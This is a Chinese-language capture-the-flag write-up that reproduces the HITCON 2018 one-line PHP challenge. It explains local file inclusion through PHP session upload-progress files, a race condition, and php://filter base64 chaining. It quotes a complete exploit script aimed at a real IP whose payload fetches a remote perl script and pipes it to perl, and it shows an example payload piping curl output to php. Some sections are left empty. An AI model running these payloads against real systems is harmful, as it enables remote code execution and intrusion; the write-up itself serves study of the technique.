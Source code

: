 ```yaml
---
title: one-line-php-challenge 复现
date: 2018-11-23 08:31:07
---
```


# 源码

环境：`This is a default installation PHP7.2 + Apache on Ubuntu 18.04` 。

![alt](181123-one-line-php-challenge/2018-10-23_200848.png) 

# 解读

- `$_GET` 是一个数组，包含通过URL参数传给当前脚本的变量。如访问`localhost?orange=123&foo=bar` ，则 `$_GET` 为 `array ('orange' => '123','foo' => 'bar',)` ，`$_GET['orange']` 为`'123'` 。另外，`$_GET` 是超全局变量，即在全部作用域中始终可用的内置变量。
- `@`被称为错误控制运算符（Error Control Operators）。当将其放置在一个 PHP 表达式之前，该表达式可能产生的任何错误信息都被忽略掉。例如对于内容为`<?php $_=$_GET['orange'];` 的PHP文件，直接访问其会报错 `Notice :  Undefined index: orange in...` ，加上 `@` 后就不会显示错误信息。
- 赋值操作。和C语言中的情况一样，赋值表达式的值就是赋值符号右侧的操作数的值。`The value of an assignment expression is the value assigned` 。
- `$_` 。一个普通的变量名。
- `file()` 。把整个文件读入数组中。
  - `array file ( string $filename [, int $flags = 0 [, resource $context ]] )`  
  - ![1542959895935](181123-one-line-php-challenge/1542959895935.png)
  - ![1542960054923](181123-one-line-php-challenge/1542960054923.png) 
- `string substr ( string $string , int $start [, int $length ] )` 。
- include 语句包含并运行指定文件。
- `(expr1) ? (expr2) : (expr3)` 是一个条件运算符，和C语言类似。
- 使用orange参数从URL传入一个文件名，如果该文件第一行的前六个字符是`@<?php` ，就将它包含并运行。
- 相关文档： [Assignment Operators](http://php.net/manual/en/language.operators.assignment.php) , [$_GET](http://php.net/manual/en/reserved.variables.get.php) , [Error Control Operators](http://php.net/manual/en/language.operators.errorcontrol.php) ,  [三元运算符](http://php.net/manual/zh/language.operators.comparison.php#language.operators.comparison.ternary) 

# 关键点

## 创建文件

`allow_url_include` 默认值是`off` ，因此无法包含远程文件。那么如果要包含本地文件，就需要已知的文件名和可控的文件内容。

最主要的利用点在于：如果在上传文件的同时POST `PHP_SESSION_UPLOAD_PROGRESS` 参数，PHP就会为我们创建session，并且session文件名可以通过cookie中的PHPSESSID控制。

做个实验。

我的环境：`PHP7.2 + Apache on Kali 4.18` 

![1542968416018](181123-one-line-php-challenge/1542968416018.png)

会发现确实如此。而且不仅如此。

```bash
curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=iamnotorange' -F 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking' -F 'file=@/etc/passwd' 1>/dev/null
curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=iamnotorange2' -F 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking2' -F 'foobar=anystring' 1>/dev/null
curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=iamnotorange3' -F 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking3'  1>/dev/null
curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=iamnotorange4' -d 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking4'  1>/dev/null
```

我执行了四次请求。第一次是使用multipart传一个文件和一个字符串，可以同时生成session文件并且控制文件名，第二次传两个字符串，只能生成文件，文件名是随机的，第三次只有一个字符串，效果同第二次，第四个直接post一个字符串，无法生成session文件。四次请求的报文形式如下。

![第一次](181123-one-line-php-challenge/1542969726963.png)

![第二次](181123-one-line-php-challenge/1542969783918.png)

![第三次](181123-one-line-php-challenge/1542969815646.png)

![第四次](181123-one-line-php-challenge/1542969856431.png)

但是我们还会发现，无论怎样请求，文件内容总是为空，这是因为 `session.upload_progress.cleanup=on` ，导致文件一上传完马上被清空。这是我们可以用条件竞争或者传超大文件来保留文件内容。

### 条件竞争

```python
#loop.py
import os
from multiprocessing.dummy import Pool as threadpool

sessname="iamnotorange"
def runner(i):
	cmd="curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=%s' -F 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking' -F 'file=@/etc/passwd' 1>/dev/null"%sessname
	os.system(cmd)
	os.system("xxd /var/lib/php/sessions/sess_%s "%sessname)
pool=threadpool(30)
result=pool.map_async(runner,range(30)).get(0xffff)
```

![1542964721887](181123-one-line-php-challenge/1542964721887.png)

可以观察到，文件内容的前一部分是可控的。

### 超大文件

## 变换文件内容

到此为止，我们实现了控制文件名和文件内容，但是文件内容的形式是固定的，即以`upload_progress_` 开头，而我们期望他是以 `@<?php` 开头。于是需要变换文件内容，可以利用 `php://filter` ，比如将文件内容多次base64解码得到我们想要的字符串。

base64解码的特点在于：

- 可以将字符串每四个字符分一组，每组解码后变成三个字符，组与组之间互不影响。
- base64编码后的字符串只会包含 `[0-9a-z-A-Z+\=]` ，如果解码时遇到这些字符之外的就会被忽略，或者说，解码前会先将非法字符删除。

所以实际上

```bash
python -c "import base64;print base64.b64decode('\x11\x22\x23\x24'*24+base64.b64encode('test'))"
```

的执行结果还是test。

我们只要想办法让`upload_progress_` 解码后成为不合法字符从而被忽略就可以了，所以需要加一些垃圾数据。因为 `upload_progress_` 有16个字符

```python

```

# 结合利用

将诸如 

```
@<?php `curl remote.ip | php - ;?>`
```

的payload三次编码再加上填充数据后作为 `PHP_SESSION_UPLOAD_PROGRESS` 的值上传，然后利用

`php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/var/lib/php/sessions/sess_whatever` 包含进来即可执行命令。可采用多线程竞争或者大文件上传保留session文件。

```python
#https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2018/one-line-php-challenge/exp_for_php.py
import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool



HOST = 'http://54.250.246.238/'
sess_name = 'iamorange'

headers = {
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
}

payload = '@<?php `curl orange.tw/w/bc.pl|perl -`;?>'


while 1:
    junk = ''.join(sample(string.ascii_letters, randint(8, 16)))
    x = b64encode(payload + junk)
    xx = b64encode(b64encode(payload + junk))
    xxx = b64encode(b64encode(b64encode(payload + junk)))
    if '=' not in x and '=' not in xx and '=' not in xxx:
        payload = xxx
        print payload
        break

def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'ZZ' + payload + 'Z'
    }
    while 1:
        fp = open('/etc/passwd', 'rb')
        r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
        fp.close()

def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    filename = 'php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s' % filename
    # print filename
    while 1:
        url = '%s?orange=%s' % (HOST, filename)
        r = requests.get(url, headers=headers)
        c = r.content
        if c and 'orange' not in c:
            print [c]


if sys.argv[1] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```





# 其他解法和WP

- http://www.wupco.cn/?p=4460 
- https://github.com/orangetw/My-CTF-Web-Challenges#one-line-php-challenge 